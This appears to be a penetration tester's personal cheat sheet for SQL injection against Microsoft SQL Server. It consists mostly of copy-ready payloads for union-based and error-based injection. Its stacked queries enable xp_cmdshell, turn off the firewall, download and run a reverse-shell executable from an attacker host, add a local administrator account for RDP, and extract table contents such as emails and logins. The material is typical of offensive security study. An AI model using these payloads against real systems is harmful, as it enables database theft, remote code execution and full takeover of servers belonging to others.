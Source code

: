 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### SQLi GUIDE


[https://www.exploit-db.com/papers/12975](https://www.exploit-db.com/papers/12975)

[https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/](https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/)

[http://www.securityidiots.com/Web-Pentest/SQL-Injection/mssql-insert-query-injection.html](http://www.securityidiots.com/Web-Pentest/SQL-Injection/mssql-insert-query-injection.html)

---
   
#### Union Based attack
From here we can observe that there are likely 3 columns, Name, Title, and Year. 

Let's try to find out the number of columns using "order by" clause:

```sql
' order by 1--
```
no error message

```sql
' order by 5--
```
error message

```sql
' order by 4--
```
error message

```sql
' order by 3--
```
error message

```sql
' order by 2--
```
no error message

So as of now we know that 2 is the last column which worked, let us prepare the union select statement

  
```sql
' union select 1,2--
```

```sql
' union select null,null--
```

```sql
' union select '1111',null--
```

```sql
' union select null,'2222'--
```
  
```sql
' union select user,null--
```
  
```sql
' union select @@version,null--
```

```sql
' union select db_name(),null --
```

#### Code execution
```sql
' union select user,null; WAITFOR DELAY '0:0:5' ; --
```

This works, as it takes five seconds for the page to load, and still displays that our SQL code executed. Now, we'll start stacking in other commands from the resource to continue.

```sql
' union select user,null; EXEC sp_configure 'show advanced options', 1; WAITFOR DELAY '0:0:5' ; --
```

Enable xp_cmdshell:
```sql
' union select user,null; RECONFIGURE; --
```

```sql
' union select user,null; EXEC sp_configure 'xp_cmdshell', 1; --
```

```sql
' union select user,null; RECONFIGURE; --
```

Disable Firewall:
```sql
' union select user,null; exec master..xp_cmdshell 'netsh advfirewall set allprofiles state off'; --
```

#### MSSQL reverse shell
[[1._Reverse Shells (WIN)]]

[[4._File Transfers]]

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```
' union select user,null; exec master..xp_cmdshell 'certutil -urlcache -split -f http://$KALI/reverse64.exe'; --
```

![[rlwrap]]

```
' union select user,null; exec master..xp_cmdshell 'reverse64.exe'; --
```

#### MSSQL RDP access
Add foobar as a new user:
```sql
' union select user,null; exec master..xp_cmdshell 'net user foobar pass123 /add'; --
```

Add foobar to Administrators group
```sql
' union select user,null; exec master..xp_cmdshell 'net localgroup Administrators foobar /add'; --
```

Rdesktop as foobar:
```bash - kali
rdesktop $TARGET -u foobar -p pass123 -g 1024x768 -x 0x80
```

---

#### Error Based attack

```sql
1 AND 1=CONVERT(INT,@@version)--
```

In our example, we used ', to trigger the exploit.
```sql
',=CONVERT(INT,@@version)--
```

Extract number of databases:
```sql
 ',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT([name]) AS nvarchar(4000)) FROM [master]..[sysdatabases] )+CHAR(58)+CHAR(58))))--
```

Extract database names (replace N with a number starting from 1):
```sql
',=CONVERT(INT,db_name(N))--
```

```sql
',=CONVERT(INT,(SELECT CAST(name AS nvarchar(4000)) FROM master..sysdatabases WHERE dbid=N))--
```

Extract table count:
```sql
 ',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM information_schema.TABLES )+CHAR(58)+CHAR(58))))--
```

Extract table names (replace N with a number starting from 1):
  
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 TABLE_NAME FROM (SELECT DISTINCT top 1 TABLE_NAME FROM information_schema.TABLES ORDER BY TABLE_NAME ASC) sq ORDER BY TABLE_NAME DESC)+CHAR(58))))--
```

To extract column names (replace TABLE_NAME string with appropriate table name found above):
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 1 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='users' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--
```

Enumerate through by changing "top ==1== column_name..." "top ==2== column_name..." "top ==3== column_name..." and so on.
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 2 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='users' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--
```

To extract data, first count the entries in the table (replace table1 with appropriate table name):  
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM users)+CHAR(58)+CHAR(58))))--
```

Then, assuming the columns we wish to extract from are called column1 and column2:
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 email+CHAR(58)+user_id FROM (SELECT top 1 email, user_id FROM users ORDER BY email ASC) sq ORDER BY email DESC)+CHAR(58)+CHAR(58))))--
```

Extract tables from another database (change other_database and increase N):
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 TABLE_NAME FROM (SELECT DISTINCT top 1 TABLE_NAME FROM archive.information_schema.TABLES ORDER BY TABLE_NAME ASC) sq ORDER BY TABLE_NAME DESC)+CHAR(58))))--
```

Extract columns from another database (change other_database, other_table and increase N):
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 1 column_name FROM archive.information_schema.COLUMNS WHERE TABLE_NAME='pmanager' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--
```

See how many data entries there are in another database (change other_database and other_table):
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM [archive]..[pmanager] )+CHAR(58)+CHAR(58))))--
```

Extract data from another database (change other_database, other_table, other_column and increase N):
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 alogin FROM (SELECT top 1 alogin FROM archive..pmanager ORDER BY alogin ASC) sq ORDER BY alogin DESC)+CHAR(58)+CHAR(58))))--
```

